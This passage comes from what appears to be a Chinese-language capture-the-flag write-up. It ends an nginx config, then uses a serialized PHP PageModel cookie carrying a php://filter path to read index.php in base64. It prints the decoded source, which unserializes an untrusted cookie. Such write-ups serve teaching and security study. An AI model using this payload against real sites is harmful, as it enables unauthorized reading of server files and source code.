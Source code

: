               index index.php;
              root /www;
      
              location / {
                  try_files $uri $uri/ /index.php?$query_string;
                  location ~ \.php$ {
                      try_files $uri =404;
                      fastcgi_pass unix:/run/php-fpm.sock;
                      fastcgi_index index.php;
                      fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                      include fastcgi_params;
                  }
              }
          }
      }
      ```

      * try_files 实现了将不存在的路径重定向到index.php

14. 重新尝试php://filter伪协议，尝试读取php文件并转为base64

    * 读取index.php，顺利返回

      ```php
      O:9:"PageModel":1:{s:4:"file";s:58:"PHP://filter/read=convert.base64-encode/resource=index.php";}
      ```

    * 解码

      ```php
      <?php
      spl_autoload_register(function ($name){
          if (preg_match('/Model$/', $name))
          {
              $name = "models/${name}";
          }
          include_once "${name}.php";
      });
      
      if (empty($_COOKIE['PHPSESSID']))
      {
          $page = new PageModel;
          $page->file = '/www/index.html';
      
          setcookie(
              'PHPSESSID',
              base64_encode(serialize($page)), 
              time()+60*60*24, 
              '/'
          );
      } 
      
      $cookie = base64_decode($_COOKIE['PHPSESSID']);
      
      unserialize($cookie);
      ```
